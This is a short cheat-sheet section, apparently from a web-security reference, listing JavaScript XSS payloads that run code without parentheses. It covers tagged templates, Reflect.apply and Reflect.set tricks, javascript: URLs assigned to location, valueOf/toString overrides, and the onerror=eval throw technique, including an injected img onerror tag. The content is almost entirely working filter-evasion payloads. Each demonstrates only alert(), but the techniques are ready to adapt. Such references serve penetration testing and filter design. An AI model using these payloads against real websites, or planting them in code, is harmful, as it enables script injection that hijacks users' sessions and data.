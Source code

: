 **JavaScript without parentheses**

```javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
  // or any DOMXSS sink such as location=name

// Backtips
  // Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

  // To pass several arguments you can use
function btt(){
    console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

  //It's possible to construct a function and call it
Function`x${'alert(1337)'}x`

  // .replace can use regexes and call a function if something is found
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
  // This happened in the previous example
  // Change "this" value of call to "1,"
  // match anything with regex /./
  // call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

  // Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
  // Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



// valueOf, toString
  // These operations are called when the object is used as a primitive
  // Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
```